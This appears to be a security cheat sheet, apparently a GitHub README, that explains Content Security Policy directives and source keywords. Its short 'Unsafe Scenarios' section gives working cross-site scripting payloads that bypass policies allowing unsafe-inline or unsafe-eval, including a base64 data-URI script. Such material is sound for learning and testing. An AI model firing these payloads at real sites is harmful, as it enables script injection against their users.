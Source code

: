 **plugin-types:** It defines limits the kinds of mime types a page may invoke. 

**upgrade-insecure-requests:** This directive instructs browsers to rewrite URL schemes, changing HTTP to HTTPS. This directive can be useful for websites with large numbers of old URL's that need to be rewritten. 

**sandbox:** sandbox directive enables a sandbox for the requested resource similar to the  sandbox attribute. It applies restrictions to a page's actions including preventing popups, preventing the execution of plugins and scripts, and enforcing a same-origin policy.
    
---
    
### Sources:
    
*: This allows any URL except data: , blob: , filesystem: schemes

**self:** This source defines that loading of resources on the page is  allowed from the same domain.

**data:** This source allows loading resources via the data scheme (eg Base64 encoded images)
    
**none:** This directive allows nothing to be loaded from any source.
    
**unsafe-eval:** This allows the use of eval() and similar methods for creating code from strings. This is not a safe practice to include this source in any directive. For the same reason it is named as unsafe.
    
**unsafe-hashes:** This allows to enable specific inline event handlers.
    
**unsafe-inline:** This allows the use of inline resources, such as inline  elements, javascript: URLs, inline event handlers, and inline  elements. Again this is not recommended for security reasons.
    
**nonce:** A whitelist for specific inline scripts using a cryptographic nonce (number used once). The server must generate a unique nonce value each time it transmits a policy.
sha256-<hash>: Whitelist scripts with an specific sha256 hash
    
## Unsafe Scenarios
    
**unsafe-inline**
```ruby
Content-Security-Policy: script-src https://google.com 'unsafe-inline';
```
**Working payload:** `"/><script>alert(1);</script>`

**'unsafe-eval'**
```ruby
Content-Security-Policy: script-src https://google.com 'unsafe-eval';
```
**Working payload:** `<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>`
    
---
    
## 📕 Referance 
    
1. [**hacktricks**](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)
